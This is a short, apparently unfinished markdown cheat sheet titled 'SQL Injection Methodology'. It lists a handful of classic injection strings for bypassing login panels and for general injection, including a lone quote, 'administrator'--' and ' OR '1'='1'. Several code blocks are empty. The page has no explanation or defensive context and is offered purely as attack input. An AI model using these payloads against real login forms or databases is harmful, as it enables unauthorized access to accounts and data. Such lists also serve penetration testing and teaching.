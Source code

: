 # SQL Injection Methodology


##### Login Panels

```
'
```
```
administrator'--
```


```

```

```

```


#### General SQL Injections

```
' OR '1'='1
```
```
'+OR+1=1--
```
